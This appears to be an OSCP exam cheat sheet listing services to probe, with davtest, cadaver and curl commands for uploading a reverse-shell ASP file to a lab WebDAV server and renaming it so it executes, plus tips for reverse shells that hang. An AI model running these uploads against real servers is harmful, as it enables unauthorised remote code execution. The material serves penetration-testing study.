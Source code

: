 # OSCP Services and Things-To-Try

## Services

SSH (22)
* Fingerprint server/OS, SSH key

HTTP (80|8080)
* Curl for HTTP header

Telnet (23)
* Stuff

SMTP (25)
* Stuff

NETBIOS (139)
* Stuff

SMB (445)
* [MS08-067] NetAPI module in Windows SMB

SAMBA

MSRPC (135)
* Stuff

## Web

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

WEBDAV vulns - using tools . 
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html  
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

## Reverse Shell Tips

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).
